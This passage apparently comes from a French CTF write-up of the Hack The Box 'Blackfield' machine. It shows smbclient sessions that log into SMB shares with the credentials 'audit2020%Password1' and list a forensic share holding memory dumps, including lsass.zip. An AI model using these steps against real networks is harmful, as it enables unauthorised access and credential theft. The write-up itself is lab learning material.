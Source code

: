 ```
[-] share 'forensic' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'profiles$' is not writable.
[-] share 'SYSVOL' is not writable.

```
Je vais essayer smbclient avec cet utilisateurs

```
┌──(root㉿xXxX)-[/home/…/CTFs/Boot2root/HTB/bloodhound]
└─# smbclient -L //BLACKFIELD.local/ -U 'audit2020%Password1'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        forensic        Disk      Forensic / Audit share.
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        profiles$       Disk      
        SYSVOL          Disk      Logon server share 
tstream_smbXcli_np_destructor: cli_close failed on pipe srvsvc. Error was NT_STATUS_IO_TIMEOUT
Reconnecting with SMB1 for workgroup listing.
```

Et si j'essaye ici d'acceder au repertoire forensic

```
└─# smbclient  //BLACKFIELD.local/forensic -U 'audit2020%Password1'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb 23 07:03:16 2020
  ..                                  D        0  Sun Feb 23 07:03:16 2020
  commands_output                     D        0  Sun Feb 23 12:14:37 2020
  memory_analysis                     D        0  Thu May 28 15:28:33 2020
  tools                               D        0  Sun Feb 23 07:39:08 2020
smb: \memory_analysis\> dir
  .                                   D        0  Thu May 28 15:28:33 2020
  ..                                  D        0  Thu May 28 15:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 15:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 15:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 15:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 15:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 15:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 15:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 15:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 15:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 15:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 15:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 15:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 15:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 15:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 15:27:38 2020
  wlms.zip                            A  4067425  Thu May 28 15:27:44 2020
  WmiPrvSE.zip                        A 18303252  Thu May 28 15:27:53 2020

                5102079 blocks of size 4096. 1691294 blocks available
smb: \memory_analysis\> 
```
